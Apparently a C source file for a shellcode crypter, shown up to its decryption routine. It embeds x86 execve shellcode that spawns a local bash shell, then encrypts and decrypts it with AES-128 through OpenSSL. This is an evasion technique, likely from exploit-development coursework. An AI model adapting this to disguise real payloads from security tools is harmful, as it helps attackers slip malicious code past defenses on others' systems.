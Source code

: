     /*

        Author : Jeremy Catelain
        Filename : aes-cryptor.c

    */

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <openssl/aes.h>

    // GLOBAL VARIABLES
    unsigned char shellcode[] = \
    "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; // to modify 

    AES_KEY enc_key, dec_key;
    // Initialisation tables for the encrypted and decrypted payloads
    unsigned char enc_out[100];
    unsigned char dec_out[100];

    // Shellcode printer
    void print_shellcode(unsigned char shellc[]) {
        int len = strlen(shellc);
        for (int i = 0; i < len; i++) {
            printf("\\x%02x", shellc[i]);
        }
    }

    // Encryption 
    void encryption(unsigned char *encryption_key, int shellcode_len){

	    AES_set_encrypt_key(encryption_key, 128, &enc_key); // AES key scheduling - Expand the Userkey, which is bits long into the key structure to preprare for encryption.

        // The encryption is performed 16 bytes by 16 bytes
	    long c1 = 0;
        while(c1 < shellcode_len){
    	    AES_encrypt(shellcode + c1, enc_out + c1, &enc_key); 
		    c1 += 16;
	    }
    }

    // Decryption
    void decryption(unsigned char *encryption_key, int enc_out_len){

        AES_set_decrypt_key(encryption_key, 128, &dec_key);

        // Decyption performed 16 bytes by 16 bytes
        long c2 = 0;
        while(c2 < enc_out_len){
    	    AES_decrypt(enc_out + c2, dec_out + c2, &dec_key);
    	    c2 += 16;
	    }
    }
